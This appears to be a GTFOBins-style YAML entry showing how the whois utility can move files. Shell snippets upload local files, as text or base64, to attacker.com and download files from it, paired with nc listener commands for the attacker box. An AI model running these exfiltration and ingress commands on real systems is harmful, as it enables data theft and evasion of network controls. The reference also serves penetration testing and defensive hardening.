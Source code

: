 description: |
  `whois` hangs waiting for the remote peer to close the socket.
functions:
  file-upload:
    - description: Send a text file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. The file has a trailing `$'\x0d\x0a'` and its length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        whois -h $RHOST -p $RPORT "`cat $LFILE`"
    - description: Send a binary file to a TCP port. Run `nc -l -p 12345 | tr -d $'\x0d' | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        whois -h $RHOST -p $RPORT "`base64 $LFILE`"
  file-download:
    - description: Fetch remote text file from a remote TCP port. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file. The file has instances of `$'\x0d'` stripped.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        whois -h $RHOST -p $RPORT > "$LFILE"
    - description: Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | nc -l -p 12345` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        whois -h $RHOST -p $RPORT | base64 -d > "$LFILE"
---
